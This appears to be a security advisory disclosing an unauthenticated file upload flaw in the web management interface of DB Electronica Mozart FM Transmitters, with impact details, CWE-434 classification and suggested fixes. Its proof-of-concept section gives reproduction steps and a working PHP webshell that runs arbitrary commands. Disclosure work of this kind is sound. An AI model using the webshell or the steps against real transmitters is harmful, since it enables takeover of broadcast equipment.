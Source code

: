 # DB Electronica Mozart FM Transmitter Unauthenticated File Upload Vulnerability

## Description 
The Mozart FM Transmitter web management interface contains an unauthenticated file upload vulnerability in the `/upload_file.php` endpoint. An attacker can exploit this by sending a crafted POST request with a malicious file (e.g., a PHP webshell) to the server. The uploaded file is stored in the `/upload/` directory, enabling remote code execution and full system compromise.

## Vendor of the Product(s)
**DB Electronica Telecomunicazioni S.p.A.**

## Vendor Homepage:** https://www.dbbroadcast.com/

## Affected Product(s)/Code Base
- **Product:** Mozart FM Transmitter
- **Firmware/Software Version:** 30 , 50 , 100 , 300 , 500 , 1000 , 2000 , 3000 , 3500 , 6000 , 7000

## Vulnerable Endpoint(s)
- `/upload_file.php`

## Attack Type
- **Type:** Unauthenticated File Upload Vulnerability
- **Classification:** Unrestricted File Upload

## Impact
- **Severity:** Critical
- **Description:**  
  The `/upload_file.php` endpoint allows unauthenticated users to upload files without any authentication, validation, or sanitization. This vulnerability enables attackers to upload malicious files (e.g., PHP webshells) directly to the server. Once uploaded, the attacker can access the file at `/upload/` and execute arbitrary commands to compromise the server.

## Affected Component(s)
- Web management interface of Mozart FM Transmitter

## Attack Vector(s)
- **Access Method:** Remote access via unauthenticated HTTP POST request
- **Authentication Requirement:** None
- **Exploit Complexity:** Low

## Impact Example

   - ** Execution:
   - Uploading the above webshell allows the attacker to execute arbitrary system commands directly on the server.

   - ** Result:
   - he attacker gains full control over the system, including the ability to modify files, extract sensitive information, or escalate privileges.

## Vulnerability Type Info

   - ** Vulnerability Type: Unrestricted File Upload

   - **  CWE-ID: CWE-434

   - ** Definition:
   - The software allows the uploading of files without sufficient validation, which can result in remote code execution, malware delivery, or other malicious actions.

## Impact Info

   - ** Impact Type:
   - Code Execution: Execute arbitrary commands on the server.
   - Privilege Escalation: Gain higher privileges on the system.
   - Data Exfiltration: Access or extract sensitive information.
   - System Compromise: Full control of the server.

---

## Proof of Concept (PoC)
### Steps to Reproduce
1. Craft a malicious PHP webshell (e.g., `poc.php`) to allow remote command execution.
2. Send an unauthenticated HTTP POST request to the `/upload_file.php` endpoint with the malicious file as payload.
3. Access the uploaded file at `/upload/poc.php`.
4. Execute arbitrary commands on the server via the webshell.

### Example Webshell (PHP)
```php
<?php
if(isset($_REQUEST['cmd'])){
    echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
}
?>
```
https://github.com/user-attachments/assets/cd3ba88a-91fc-4eda-8849-8df7a0c57277



## Suggested Fixes

   - **  Authentication Enforcement: Require user authentication before allowing file uploads.

   - **  File Type Validation: Restrict uploaded files to specific, safe file types (e.g., .zip or .bin for firmware updates).

   - **  File Content Validation: Use server-side checks to ensure the uploaded file content matches its intended purpose.

   - **  Storage Restrictions: Store uploaded files outside of web-accessible directories.

   - **  Logging: Implement detailed logging of file upload activities for auditing and monitoring purposes.

   - **  Testing: Perform regular security assessments for file upload vulnerabilities.
